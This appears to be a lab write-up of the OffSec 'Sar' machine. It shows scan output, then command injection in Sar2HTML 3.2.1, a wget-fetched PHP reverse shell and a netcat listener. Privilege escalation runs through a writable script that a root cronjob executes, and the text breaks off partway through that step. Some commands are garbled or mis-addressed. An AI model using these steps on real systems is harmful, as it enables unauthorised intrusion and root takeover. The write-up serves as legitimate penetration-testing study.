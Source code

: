 # offsec-labs-writeups
### Sar


- Vulnerability Exploited: Sar2HTML 3.2.1 - Remote Command Execution 
- System Vulnerable: 192.168.55.35
- Vulnerability Explanation: The vulnerability is due to insufficient sanitizing of user supplied inputs in the application when handling a crafted HTTP request. A remote attacker may be able to exploit this to execute arbitrary commands within the context of the application, via a crafted HTTP request.
- Privilege Escalation Vulnerability:
    - Abusing Cronjob
    - Abusing Writable file permission
- Severity: Critical

An initial scan using nmapAutomator tool revealed Apache httpd 2.4.29 ((Ubuntu)) running on port 80

```javascript
(root@kali)-[/home/kali/nmapAutomator] ./nmapAutomator.sh  192.168.55.35 All
    Running all scans on 192.168.55.35
    Host is likely running Linux
---------------------Starting Port Scan-----------------------

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:50:56:BF:F3:1A (VMware)

---------------------Starting Script Scan-----------------------

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: |   2048 33:40:be:13:cf:51:7d:d6:a5:9c:64:c8:13:e5:f2:9f (RSA)
|   256 8a:4e:ab:0b:de:e3:69:40:50:98:98:58:32:8f:71:9e (ECDSA)
|_  256 e6:2f:55:1c:db:d0:bb:46:92:80:dd:5f:8e:a3:0a:41 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)MAC Address: 00:50:56:BF:F3:1A (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


```

the Apache default page is shown below

![1](https://user-images.githubusercontent.com/38728250/194192999-df7a3460-5996-43bf-bbcf-21e83aa95867.png)

running Dirb for directory brute force attack for enumerating web directories:

```javascript
(root@kali)-[/home/kali/nmapAutomator]
 dirb http://192.168.55.35

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Wed Oct  5 21:26:10 2022
URL_BASE: http://192.168.55.35/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.55.35/ ----
+ http://192.168.55.35/index.html (CODE:200|SIZE:10918)                                                        
+ http://192.168.55.35/phpinfo.php (CODE:200|SIZE:95487)                                                       
+ http://192.168.55.35/robots.txt (CODE:200|SIZE:9)                                                            
+ http://192.168.55.35/server-status (CODE:403|SIZE:278)                                                       
                                                                                                               
-----------------
END_TIME: Wed Oct  5 21:26:12 2022
DOWNLOADED: 4612 - FOUND: 4

```

- Let's see what does robots.txt have
![2](https://user-images.githubusercontent.com/38728250/194194345-afc4707f-1a10-40ba-a910-0863919541de.png)

- opening the URL sar2HTML, and the resulting web page displays its default configuration along with version disclosure.
- So, I looked up for its exploit, and i found rce on exploit db.
- The exploit says: In web application you will see index.php?plot url extension.
- Let test first command injection vulnerability
![3](https://user-images.githubusercontent.com/38728250/194197162-062c2164-878c-4daf-83da-ef8ec179f861.png)
python3 is there
- So let's input our own php-reverse-shell from pentestmonkey. The script will open an outbound TCP connection from the webserver to a host and port of specified on the source code. Bound to this TCP connection will be a shell.
    - 1. ``` locate rev.php ``` on the machine /home/kali/rev.php
    - 2. ``` Vim rev.php ``` and edit the port number to 1234
    - 3. and then running the server by Execute ``` python -m SimpleHTTPServer 8008```
    - 4. In the url execute ``` wget+192.168.55.35:8008/rev.php``` for upload the file on the server 
    - 5. testing if the file has been uploaded ```index.php?plot=;ls```, yes it is uploaded 
    - 6. Try to running it and Voila I have got the shell
        - Take the first step by taking a proper terminal shell by the command ```import put:pty.spawn(‘/bin/bash’);```
        - There we go
        - Let’s execute privilege escalation script (LinEnum is one such script that can be incredibly useful for privilege escalation on Linux systems.) on /var/tmp
        - On my machine
            - ```cd tools/LinEnum```


        - And upload the file on the attacked machine by


            - ```Wget http://192.168.55.35/LinEnum.sh```
            - And there we are, and then I run the script and checking for the output and analyzing the data so what all the results we have got by the linux enumeration script.
            - so I found a cron job of a file which is getting executed with ```sudo ./finally.sh``` inside ```/var/www/html``` dir
                - The file ```finally.sh``` has no write permission, On the other hand the ```write.sh``` has the execute permission.
                - So as we have the permissions to ```write.sh``` we upload our shell, php shell to our ```/www/html``` dir.
                - Lets start a reverse http server 
                -  ```python -m SimpleHTTPServer 8008```
                - Update the port on ```rev.php``` to 1337
                - Upload the script in ```/var/www/html$ wget 192.168.55.35:8008/rev.php```
                - Start listen to the port 1337 by ```nc -lvp 1337```
                - ```Echo “php ./rev.php”  >> write.sh```
